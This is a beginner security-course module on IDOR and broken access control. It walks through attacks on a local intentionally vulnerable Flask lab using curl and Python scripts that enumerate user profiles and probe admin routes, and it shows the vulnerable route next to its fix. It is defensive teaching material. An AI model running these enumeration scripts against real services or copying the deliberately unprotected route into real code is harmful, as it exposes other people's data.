

# 05-6 · IDOR & Access Control

> **Level:** Beginner · **Prerequisites:** [05-5 Authentication attacks](05_authentication_attacks.md)
> **Time:** ~1 hour · **Verified:** 2026-06-25 (vuln-flask lab)

> ⚠️ **LEGAL REMINDER:** Accessing other users' data without authorisation is illegal, regardless of whether the server "allows" it. All exercises target the local lab only.

---

## Why this matters

OWASP A01:2021 — Broken Access Control is the #1 most common vulnerability category, found in 94% of applications tested. IDOR (Insecure Direct Object Reference) is its most frequent subtype. In 2023, a major airline exposed every passenger's booking data via a sequential booking reference IDOR — no hacking tools required.

---

## What access control means

Authentication answers: *who are you?*
Authorization answers: *what are you allowed to do?*

Broken access control means authentication works, but authorization doesn't. The user can prove who they are — but the server doesn't check whether *that user* is allowed to access *this specific resource*.

---

## IDOR explained



---

## Lab exercise: exploit the IDOR in vuln-flask

### Step 1: log in as alice

```bash
# Log in as alice and save cookie
curl -s -c /tmp/alice_cookies.txt -X POST http://localhost:5001/login \
  -H "Content-Type: application/json" \
  -d '{"username":"alice","password":"alice2024"}'
# {"message": "Login successful", "role": "user", "user_id": 2}
```

### Step 2: access alice's own profile

```bash
curl -s -b /tmp/alice_cookies.txt http://localhost:5001/user/2/profile
# Expected: alice's data
```

### Step 3: access admin's profile — IDOR

```bash
curl -s -b /tmp/alice_cookies.txt http://localhost:5001/user/1/profile
# Admin's data returned — alice should not have access to this
```

### Step 4: enumerate all users

```bash
for id in 1 2 3 4 5; do
  echo "=== User $id ==="
  curl -s -b /tmp/alice_cookies.txt http://localhost:5001/user/${id}/profile
  echo
done
```

Output:
```
=== User 1 ===
{"id": 1, "username": "admin", "email": "admin@lab.local", "role": "admin", "notes": [...]}
=== User 2 ===
{"id": 2, "username": "alice", "email": "alice@lab.local", "role": "user", "notes": [...]}
=== User 3 ===
{"id": 3, "username": "bob", "email": "bob@lab.local", "role": "user", "notes": [...]}
=== User 4 ===
{"error": "User not found"}
=== User 5 ===
{"error": "User not found"}
```

Three users exposed. In a real system with 10,000 users, a script like this dumps the entire user database.

---

## No authentication at all

Some endpoints forget authentication entirely:

```bash
# Access admin profile WITHOUT any session cookie
curl -s http://localhost:5001/user/1/profile
# This may still return data — check vuln_flask/app.py
```

Look at the vulnerable route in `vuln_flask/app.py`:

```python
@app.get("/user/<int:user_id>/profile")
def user_profile(user_id: int):
    # VULN: no check that the logged-in user owns this profile
    # VULN: no check that the user is even logged in
    conn = get_db()
    row = conn.execute("SELECT id,username,role FROM users WHERE id=?", (user_id,)).fetchone()
    if not row:
        return jsonify({"error": "User not found"}), 404
    return jsonify(dict(row))
```

There is no `session.get("user_id")` check at all — not even a login requirement.

---

## The fix: ownership check

```python
@app.get("/user/<int:user_id>/profile")
def user_profile(user_id: int):
    # Step 1: require authentication
    current_user_id = session.get("user_id")
    if not current_user_id:
        return jsonify({"error": "Not logged in"}), 401
    
    # Step 2: ownership check — only allow access to own profile, or admin
    current_role = session.get("role")
    if current_user_id != user_id and current_role != "admin":
        return jsonify({"error": "Forbidden"}), 403
    
    # Step 3: fetch and return
    conn = get_db()
    row = conn.execute("SELECT id,username,role FROM users WHERE id=?", (user_id,)).fetchone()
    if not row:
        return jsonify({"error": "User not found"}), 404
    return jsonify(dict(row))
```

The key change: **check identity AND ownership at every data access point**, not just at the route entry.

---

## Other access control patterns

| Pattern | Vulnerable example | Fix |
|---|---|---|
| **IDOR** | `/user/1/profile` (any user_id works) | Ownership check |
| **Horizontal escalation** | `alice` can read `bob`'s account | Same role, wrong data |
| **Vertical escalation** | Normal user accessing `/admin/` | Role check on every admin route |
| **Forced browsing** | `/admin/deleteuser?id=5` — no login needed | Require auth on all routes |
| **Mass assignment** | `PUT /user {"role": "admin"}` — role is user-settable | Whitelist allowed fields |

---

## Mass assignment: a related pattern

Mass assignment occurs when a server blindly assigns all JSON fields from the request to a database model:

```python
# VULNERABLE — user can set any field including "role"
user_data = request.get_json()
conn.execute("UPDATE users SET role=? WHERE id=?",
             (user_data.get("role", "user"), current_user_id))

# SECURE — only allow specific fields to be updated
allowed_fields = {"email", "display_name"}
updates = {k: v for k, v in request.get_json().items() if k in allowed_fields}
```

---

## Exercises

1. **Automate the IDOR sweep.** Write a Python script that logs in as bob and iterates user IDs 1–100, printing any non-404 responses. How many users does it find?

<details>
<summary>Solution</summary>

```python
import requests

session = requests.Session()
r = session.post("http://localhost:5001/login",
                 json={"username": "bob", "password": "bob2024"})
print("Logged in as", r.json().get("username", "?"))

found = []
for uid in range(1, 101):
    r = session.get(f"http://localhost:5001/user/{uid}/profile")
    if r.status_code == 200:
        found.append(r.json())
        print(f"ID {uid}: {r.json()}")

print(f"\nTotal users found: {len(found)}")
```

Finds 3 users (admin, alice, bob).

</details>

2. **Test unauthenticated access.** Remove the session cookie and try `/user/1/profile` with no auth. Does the server return data? Write the OWASP A01 finding for this.

<details>
<summary>Solution</summary>

```bash
curl -s http://localhost:5001/user/1/profile
# {"id": 1, "username": "admin", ...}
```

Finding: "**IDOR + Missing Authentication (A01 Critical)** — The `/user/<id>/profile` endpoint does not require authentication. Any unauthenticated user can enumerate all user accounts including usernames, email addresses, and roles by iterating the `id` parameter. No session cookie is required."

</details>

3. **Check for vertical privilege escalation.** As alice (role: user), try accessing `/admin/` or other admin-only endpoints in vuln-flask. Use curl and the tools section to enumerate which admin routes might exist.

<details>
<summary>Solution</summary>

```bash
# Login as alice
curl -s -c /tmp/alice.txt -X POST http://localhost:5001/login \
  -H "Content-Type: application/json" \
  -d '{"username":"alice","password":"alice2024"}'

# Try common admin paths
for path in /admin /admin/ /admin/users /admin/panel /dashboard/admin; do
  STATUS=$(curl -o /dev/null -w "%{http_code}" -s -b /tmp/alice.txt "http://localhost:5001${path}")
  echo "$path → HTTP $STATUS"
done
```

Check `vuln_flask/app.py` to understand what routes exist and whether role checks are present.

</details>

---

## Recap & next

- ✅ IDOR: user-supplied ID parameter with no ownership check — access any resource
- ✅ Broken access control is OWASP A01 — the most prevalent web vulnerability
- ✅ Fix: authenticate + authorise at every data access point
- ✅ Mass assignment: never let users set privileged fields; use a whitelist
- ✅ Unauthenticated access to sensitive endpoints is always a Critical finding

**→ Next: [07 Security headers & TLS](07_security_headers_and_tls.md)**
